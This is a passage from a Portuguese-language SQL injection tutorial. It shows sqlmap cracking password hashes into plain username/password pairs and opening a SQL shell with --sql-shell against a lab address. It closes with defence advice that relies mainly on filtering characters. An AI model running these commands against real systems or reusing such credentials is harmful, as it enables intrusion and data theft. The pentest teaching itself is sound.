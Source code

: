 > Observe na saída anterior que houveram questionamentos do SQLmap para a pessoa que executou o mesmo. Esses questionamentos foram para realização de descobertas de senhas.

Analisando a saída anterior, dá para ver o poder e a praticidade do SQLmap, pois esse além de conseguir apresentar os dados das colunas ``name`` e ``password``, deu também a opção de tentativa de quebra de senha ao identificar que a coluna ``password`` armazenava *hashes* de senhas. Assim, o SQLmap iniciou a quebra dessas senhas e conseguiu identificar os seguintes usuários/senhas:
* ``jose``/``123456``;
* ``antonio``/``iloveyou``;
* ``maria``/``master``;
* ``ana``/``felicidade``;
* ``luiz``/``123mudar``.

Feito isso agora basta o atacante/Pentester utilizar essas credenciais para ver se essas dão acesso ao sistema da vítima.

### SQLmap - Abrindo shell do SDBD

Além das opções apresentadas anteriormente, o SQLmap apresenta muitas outras, como por exemplo abrir um *shell* para o atacante executar SQLs arbitrários na vítima. Isso é feito com a opção **``--sql-shell``**, veja o resultado a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users --sql-shell
...
[09:56:40] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell>

sql-shell> select user, host from mysql.user;
[09:59:31] [INFO] fetching SQL SELECT statement query output: 'select user, host from mysql.user'
[09:59:31] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
select user, host from mysql.user [2]:
[*] admin, localhost
[*] root, localhost

sql-shell>
```
Com o *shell* o atacante/Pentester tem uma liberdade maior para testes. No exemplo da saída anterior, foi realizado um SELECT buscando os usuários/*hosts* permitidos no servidor de banco de dados (``select user, host from mysql.user;``).

Existem muitas outras opções no SQLmap, não é intensão deste material cobrir todas as possibilidades Assim, para mais informações acesse: <https://sqlmap.org/>.

## Conclusão

O SQL Injection é um ataque antigo, mas que ainda é muito devastador, pois quando há sucesso neste tipo de ataque, dados são expostos e esses podem até mesmo dar acesso completo ao sistema, ou expor informações sensíveis das empresas ou clientes.

Há algumas abordagens para se proteger de SQL Injection, mas basicamente essas consistem em analisar a expressão SQL antes de executá-la no servidor. Por exemplo, isso pode ser feito analisando e removendo caracteres normalmente utilizados em ataques SQLi, tais como: ``'``, ``"``, ``#``, etc. Também é recomendável restringir o nível de acesso do usuário de realiza os SQLs.
